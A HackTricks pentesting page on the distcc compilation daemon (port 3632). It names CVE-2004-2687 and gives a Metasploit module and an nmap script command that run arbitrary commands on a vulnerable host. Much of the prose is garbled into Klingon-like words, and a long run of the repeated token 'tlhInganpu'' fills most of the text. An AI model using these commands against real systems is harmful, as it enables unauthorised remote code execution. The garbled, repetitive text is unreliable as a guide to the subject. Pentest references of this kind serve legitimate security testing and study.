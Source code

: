 <details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


# Basic Information

**Distcc** is a tool that enhances the **compilation process** by utilizing the **idle processing power** of other computers in the network. When **distcc** is set up on a machine, this machine is capable of distributing its **compilation tasks** to another system. This recipient system must be running the **distccd daemon** and must have a **compatible compiler** installed to process the sent code.

**Default port:** 3632
```
PORT     STATE SERVICE
3632/tcp open  distccd
```
# Qapla' 

QaD vulnerable **CVE-2004-2687** 'ej execute arbitrary code:
```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"
```
# Shodan

**_jIyajbe'chugh Shodan vItlhutlh._**

# Resources

* [https://www.rapid7.com/db/modules/exploit/unix/misc/distcc\_exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc\_exec)
* [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

**Álex B (@r1p)** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'** **tlhInganpu'**
